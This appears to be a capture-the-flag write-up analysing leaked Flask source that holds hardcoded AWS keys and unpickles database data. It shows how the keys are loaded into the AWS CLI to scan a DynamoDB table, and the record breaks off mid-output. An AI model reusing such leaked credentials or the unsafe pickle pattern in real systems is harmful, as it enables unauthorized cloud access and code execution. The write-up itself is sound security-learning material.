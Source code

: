 ```python
def customers():
        dynamodb = boto3.resource('dynamodb', region_name='us-east-1',aws_access_key_id='AKIAXNIS54OCBQD5C4ME',aws_secret_access_key='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')
        table = dynamodb.Table('customers')
        response = table.scan()
        data=[]
        for i in response["Items"]:
                print (i)
                i=base64.b64decode(i["data"])
                i=pickle.loads(i)
                print (i)
                data.append(i)
        return render_template('customers.html',data=data)

app.run('0.0.0.0',9000)
```

Two things can be seen in the sourc code which look interesting

The access key and the secret key for AWS which is used for accessing the dynamodb

Also, it is using pickle to deserialize the data from the database, if we can control the data on the database, we might be able to exploit it.


Using the access key and the secret key, we can access AWS as that user.

However it turns out the pickle deserialization is just a rabbit hole, as we cannot change the data on the database.

We can create profile to use those keys :  
```
aws configure --profile <profile name>
```

Or we can just change the `~/.aws/credentials` file directly

We can access the data on the database using those keys : 
```json
aws --profile=tetctf dynamodb scan --table-name customers
{
    "Items": [
        {
            "Id": {
                "N": "3"
            },
            "data": {
                "S": "gASVKgAAAAAAAAB9lCiMBG5hbWWUjAtNeSBGcmllbmQgM5SMBGRlc2OUjAZNZW1iZXKUdS4="
            }
        },
        {
            "Id": {
                "N": "2"
            },
            "data": {
                "S": "gASVKgAAAAAAAAB9lCiMBG5hbWWUjAtNeSBGcmllbmQgMpSMBGRlc2OUjAZNZW1iZXKUdS4="
            }
        },
        {
            "Id": {
                "N": "4"
            },
            "data": {
                "S": "gASVKgAAAAAAAAB9lCiMBG5hbWWUjAtNeSBGcmllbmQgNJSMBGRlc2OUjAZNZW1iZXKUdS4="
            }
        },
        {
            "Id": {
```